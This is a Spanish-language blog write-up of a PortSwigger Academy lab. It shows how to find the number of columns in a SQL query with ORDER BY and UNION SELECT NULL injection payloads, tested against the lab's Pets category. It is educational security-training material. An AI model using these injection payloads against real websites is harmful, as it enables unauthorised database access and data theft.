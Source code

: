 +++
author = "Alux"
title = "Portswigger Academy Learning Path: SQL Injection Lab 3"
date = "2021-11-04"
description = "Lab: SQL injection UNION attack, determining the number of columns returned by the query"
tags = [
    "sqli",
    "portswigger",
    "academy",
    "burpsuite",
]
categories = [
    "pentest web",
]
series = ["Portswigger Labs"]
image = "head.png"
+++

# Lab: SQL injection UNION attack, determining the number of columns returned by the query

En este <cite>laboratorio[^1]</cite>la finalidad es recuperar el numero de columnas de la tabla a la que se esta realizando la consulta, para posteriormente poder extraer los datos basandose en ese numero de columnas. Para este caso se puede hacer uso de dos metodos que pueden ser `ORDER BY ?` o `UNION SELECT NULL,NULL,NULL...`

Usando algunos de estos dos podemos recuperar el numero de columnas, sabiendo que a la hora que la aplicacion genere un error no sera el numero de columna correcta, claramente si usamos un `order by 9` y secuencialmente llegamos hasta el 10 quiere decir que esa tabla cuenta con 9 columnas y son las que utilizaremos posteriormente para imprimir los datos.

Union select null funciona igualmente, si agregamos 9 null y al agregar un null mas nos muestra error quiere decir que esa tabla solo cuenta con 9 columnas. Un ejemplo de uso en una consulta sql seria:

```sql
select * from tabla where nombre = 'test' order by 1--
select * from tabla where nombre = 'test' order by 2--
select * from tabla where nombre = 'test' order by 3--
select * from tabla where nombre = 'test' order by n--

select * from tabla where nombre = 'test' union select null--
select * from tabla where nombre = 'test' union select null,null--
select * from tabla where nombre = 'test' union select null,null,null--
select * from tabla where nombre = 'test' union select null,null,null,null--
```

## Reconocimiento

Ingresamos a la web y elegimos alguna categoria, en este ejemplo sera la categoria Pets.Ahora es momento de ir probando secuencialmente numero en numero y ver hasta que valor nos dara el error:

### Payloads

   Payload | Resultado
--------|------
  Pets' order by 1-- | Imprime resultados normalmente
  Pets' order by 2-- | Imprime resultados normalmente
  Pets' order by 3-- | Imprime resultados normalmente
  Pets' order by 4-- | **Muestra error**
  Pets' UNION SELECT NULL-- | **Muestra error**
  Pets' UNION SELECT NULL,NULL-- | **Muestra error**
  Pets' UNION SELECT NULL,NULL,NULL-- | Imprimer resultados normalmente
  Pets' UNION SELECT NULL,NULL,NULL,NULL-- | **Muestra error**

Como se ve al ingresar el valor 4 o 1,2 y 4 nulls, nos muestra un error de `Internal server error` lo que hace que el backend no este respondiendo de manera correcta y no pueda procesar la solicitud. Con esto sabemos que la tabla en la que se extrae los datos cuenta con 3 columnas.

![Laboratorio resuelto](resuelto.png)


[^1]: [Laboratorio](https://portswigger.net/web-security/sql-injection/union-attacks/lab-determine-number-of-columns)